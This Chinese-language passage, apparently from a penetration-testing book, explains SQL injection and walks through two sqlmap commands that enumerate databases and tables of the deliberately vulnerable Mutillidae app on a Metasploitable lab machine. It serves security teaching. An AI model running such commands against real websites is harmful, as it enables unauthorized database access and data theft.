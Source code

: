 ## 对数据库的注入攻击

网站中最常见且可利用的漏洞是注入漏洞，当受害网站不监控用户输入时，攻击者可以与后端系统进行交互。攻击者可以构造输入数据来修改或窃取数据库中的内容，将可执行文件放置到服务器上，或向操作系统发出命令。

评估 SQL 注入漏洞最有用的工具之一是**sqlmap**，这是一个 Python 工具，可以自动进行对 Firebird、Microsoft SQL、MySQL、Oracle、PostgreSQL、Sybase 和 SAP MaxDB 数据库的侦察和利用。

我们将演示对 Mutillidae 数据库的 SQL 注入攻击。第一步是确定 Web 服务器、后端数据库管理系统和可用的数据库。

启动一个 Metasploitable 虚拟机，并访问 Mutillidae 网站。完成后，查看网页，以确定接受用户输入的页面（例如，接受远程用户的用户名和密码的用户登录表单）；这些页面可能容易受到 SQL 注入攻击。然后，打开 Kali，并从命令提示符输入以下内容（使用适当的目标 IP 地址）：

```
root@kali:~# sqlmap -u 
  'http://192.168.75.129/mutillidae/index.php?page=user-
  info.php&username=admin&password=&user-info-php-submit-
  button=View+Account+Details' --dbs 

```

Sqlmap 将返回数据，如下截图所示：

![对数据库的注入攻击](img/3121OS_09_20.jpg)

最有可能存储应用程序数据的数据库是`owasp10`数据库；因此，我们将使用以下命令检查该数据库的所有表：

```
root@kali:~# sqlmap -u 
  'http://192.168.75.129/mutillidae/index.php?page=user-
  info.php&username=admin&password=&user-info-php-submit-
  button=View+Account+Details' –D owasp10 --tables 

```

执行该命令后返回的数据显示在以下截图中：

![对数据库的注入攻击](img/3121OS_09_21.jpg)
